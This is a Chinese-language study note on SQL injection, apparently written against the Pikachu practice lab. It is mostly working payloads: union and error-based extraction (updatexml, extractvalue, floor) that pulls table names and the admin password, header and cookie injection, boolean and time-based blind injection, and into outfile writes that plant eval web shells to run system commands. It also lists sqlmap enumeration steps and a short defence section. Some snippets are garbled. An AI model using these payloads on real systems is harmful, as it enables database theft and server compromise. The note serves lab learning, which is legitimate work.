









SQL注入漏洞
开发人员在构建代码时，没有对输入边界进行安全考虑，导致攻击着可以通过合法的输入点提交一些精心
构造的语句，从而欺骗后台数据库对其进行执行，导致数据库信息泄漏的一种漏洞。
攻击流程
- 注入点探测
自动：web漏洞扫描，自动进行注入点发现
手动：手工构造SQL inject测试语句 进行注入点发现
- 信息获取
通过注入点得到数据
- 环境信息：数据库类型、数据库版本、操作系统版本、用户信息…… * 数据库信息：数据库名称、数据库表、表字段、字段内容（加密内容破解）
- 获取权限
获取操作系统权限：通过数据库执行shell，上传木马
常见注入点类型(猜测后台类型)
- 数字型 user_id=$id
- 字符型 user_id='$id'
- 搜索型 text LIKE '%{$_GET['search']}%'"
数字型注入（POST）
$ id= $_POST['id']
select 字段1，字段2 from 表名 where id =1 or 1=1；
在repeater里id=1 or 1=1得到所有，遍历数据库
字符型注入（GET）
输入username：字符串，尝试单引号、双引号
$uname=$_GET['username']
select 字段1，字段2 from 表名 where username='$uname';
构造闭合，合法SQL
kobe' or 1=1#
把后面多余的用#注释掉
- MySQL注释
从#到行尾
从--到行尾[第二个破折号后面至少跟一个空格符（空格、tab、换行符）]
从/ 到 /[跨行注释]
> mysql> SELECT 1+1; # This comment continues to the end of line > > mysql> SELECT 1+1; -- This comment continues to the end of line > > mysql> SELECT 1/ this is an in-line comment / + 1; > > mysql> SELECT 1+/ this is amultiple-line comment/1;
搜索型注入
数据库里select * from member where username like '%k%';
like '%xxxx%' or 1=1 #%''
xx型注入
= ('xx') or 1=1 #')
判断
kobe' and 1=1#和只输入kobe一样
kobe' and 1=2#和输入错误一样
则参与后台数据库逻辑运算
只输入单引号：数据库报错
手动测试-通过union数据获取
select id,email from member where username='kobe' union select username,pw from member where id =1;
- union查询字段有数量限定




所以，主查询只有两个字段
- 数据库基本方法：
select version();//数据库版本
select database();//取当前数据库
select user();//取当前登录用户
输入a' union select database(),user()#
- information_schema
| SCHEMATA | 提供当前MySQL实例中所有数据库信息 | show databases的结果取之此表。 |
|---|---|---|
| TABLES | 关于数据库中表的信息（包括视图），详细表述了某个表属于哪个schema，表类型表引擎，创建时间等信息 | show tables from schemaname |
| COLUMNS | 提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息 | show columnsfrom schemaname.tablename |
手动测试-基于函数报错的信息获取
- 技巧思路：
在MYSQL中使用一些指定的函数来制造报错，从而从报错信息中获取设定的信息。
select/insert/update/delete都可以使用报错来获取信息。
- 常用报错函数：
| updatexml() | MySQL对XML文档数据查询和修改的XPATH函数 |
|---|---|
| extractvalue() | MYSQL对XML文档数据查询的XPATH函数 |
| floor() | MYSQL中用来取整的函数 |
- 背景条件:
后台没有屏蔽数据库报错信息，在语法发生错误时会输出在前端。
updatexml（）
| 函数作用 | 改变(查找并替换)XML文档中符合条件的节点的值。 |
|---|---|
| 语法 | UPDATEXML(xml_document, XPathstring, new_value) |
| 第一个参数 | fiedname是String格式，为表中的字段名 |
| 第二个参数 | XPathstring(Xpath格式的字符串) |
| 第三个参数 | new_value，String格式，替换查找到的符合条件的 |
Xpath定位必须是有效的，否则则会发生错误
kobe'andupdatexml(1,version(),0)#
返回第二个参数报错内容
改造：kobe' and updatexml(1, concat(0x7e,version()),0)# concat：把传进去的参数组合成字符串打印 kobe' and updatexml(1, concat(0x7e,database()),0)#
报错只能一次显示一行
kobe' and updatexml(1, concat (0x7e, (select table_name from information_schema.tables where table_schema='pikachu')),0)#

可以使用limit一次一次进行获取表名
得到第一个表的名称： kobe' and updatexml(1, concat (0x7e, (select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)),0)# 从第0个位置开始，步长为1 得到第二个表的名称： kobe' and updatexml(1, concat (0x7e, (select table_name from information_schema.tables where table_schema='pikachu' limit 1,1)),0)#
获取到表名后，再获取列名，思路是一样的
kobe' and updatexml(1, concat(0x7e, (select column_name from information_schema. columns where table_name='username' limit 0,1)),0)#
获取到列名称后，再来获取数据:
kobe' and updatexml(1,concat(0x7e, (select username from users limit 0,1)),0)# kobe' and updatexml(1,concat(0x7e, (select password from users where username='admin' limit 0,1)),0)#
insert、update
注册、修改个人信息时，使用insert插入数据库中
insert into member(username,pw,sex,phonenum,email,address) volues('xiaohong',111111,1,2,3,4);
用户名输入单引号，MySQL报错：参与到数据库
- or闭合
insert into member(username,pw,sex,phonenum,email,address) volues('1' or updatexml(1,concat(0x7e,database()),0) or'',111111,1,2,3,4);
基于insert下的报错输入:
xiaohong' or updatexml(1,concat (0x7e, database()),0) or'
delete
后台
if(array_key_exists('id',$_GET)){
$query="delete_from message where id={$_GET['id']}";
}基于delete下的报错
1 or updatexml(1,concat(0x7e,database()),0)
修改成URL：convert-URL-URL encode key character
id不用单引号
extractvalue()
| 函数作用 | 从目标XML中返回包含所查询值的字符串 |
|---|---|
| 语法 | ExtractValue(xml_document, xpath_string) |
| 第一个参数 | XML_document是String格式，为XML文档对象的名称，文中为Doc |
| 第二个参数 | XPath_string(Xpath格式的字符串) |
Xpath定位必须是有效的，否则则会发生错误
基于extractvalue（）
kobe' and extractvalue(0,concat(0x7e,version()))#
floor()
取整
数据库中：
select floor(1111.1111)
基于floor（）
kobe' and (select 2 from (select count(),concat(version(),floor(rand(0) 2))x from information_schema.tables group by x)a)# a:别名 kobe' and (select 2 from (select count(),concat( (select password from users where username='admin' limit 0,1),floor(rand(0) 2))x from information_schema.tables group by x)a)#
http header注入
后台开发人员为了验证客户端头信息[比如cookie验证]或者通过http header头信息获取客户端的一些信息[比如useragent、accept字段] 会对客户端的httpheader信息进行获取并使用SQL进行处理，如果此时没有足够的安全考虑则可能会导致基于http header的SQLInject漏洞。
user-agent
输入'测试，最后报错SQL问题：有SQL注入漏洞
基于http header
firefox' or updatexml(1,concat(0x7e,database()),0) or '
cookie:
Cookie:ant[uname]=admin' and updatexml(1,concat(0x7e,database()),0)#
admin后面加'测试，报错SQL类型
盲注
后台使用错误信息屏蔽方法[如@]屏蔽报错，此时无法根据报错信息进行注入判断
根据表现形式不同，盲注分为based boolean和based time
- boolean
- 没有报错信息
输入'没有报错，直接提示不存在
- 不管输入是否正确，都只显示两种情况[0/1]
- 在正确输入下，输入and 1=1/and 1=2 可以判断
kobe' and 1=1#可以执行
kobe' and 1=2#提示不存在


- kobe' and ascii(substr(database(),1,1))>113#
返回kobe：and后面为真
返回不存在：and后面为假
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=0,1),1,1))=112#
- based time
基于time的盲注完全啥都看不到了! 但还有一个条件，”时间”，通过特定的输入，判断后台执行的时间，从而确认注入! 常用的Teat Payload:kobe' and sleep(5)# 判断：输入:kobe 和输入kobe‘and sleep(5)#的区别，这里存在based time的SQL注入漏洞
> kobe' and if((substr(database(),1,1))='p',sleep(5),null)# > > 第一个字符如果是p，就等5秒，否则不等
os远程控制
- 一句话木马
短小精悍的木马客户端，隐蔽
PHP:
ASP:<%eval request("chopper")%>
ASP.NET: <%@ Page Language=" Jscript" %> <%eval(Request.Item["chopper"l,"unsafe");%>
- 写入恶意代码
select 1,2 into outfile "/var/www/html/1.txt"
into outfile 将select的结果写入指定目录的1.txt
在没有回显的注入：使用into outfile将结果写入指定文件，访问获取
- 前提条件 1. 知道远程目录 2. 远程目录有写权限 3. 数据库开启secure_file_priv
- 获取操作系统权限
kobe' union select "",2 into outfile "/var/www/html/1.php"#
127.0.0.1/1.php?test=phpinfo
kobe' union select "",2 into outfile "/var/www/html/2.php"#
127.0.0.1/2.php?cmd=ifconfig
表（列）名的暴力破解
猜表名：kobe' and exists(select * from aa)#
抓包后在intruder里对aa添加进行爆破
猜列名：kobe' and exists(select id from users)#
对id爆破
SQL注入防范措施
- 代码 1. 对输入严格转义、过滤 2. 预处理、参数化
- 网络 1. WAF设备启用防SQL Inject注入策略/类似防护系统 2. 云端防护[360网站卫士，阿里云盾]
- 转义+过滤

- PDO的prepare预处理（预处理+参数化）（推荐）

不是拼接->防注入
自动sqlmap
- 用法： 1. -u "xxx" --cookie= "yyy"//带上Cookie对URL进行注入探测 2. -u "xxx" --cookie= "yyy" -current-db//获取数据库名 3. -u "xxx" --cookie= "yyy" -D pikachu --tables //枚举数据库表名 4. -u "xxx" --cookie= "yyy" -D pikachu -T users --columns //枚举dvwa库里名为users表的列名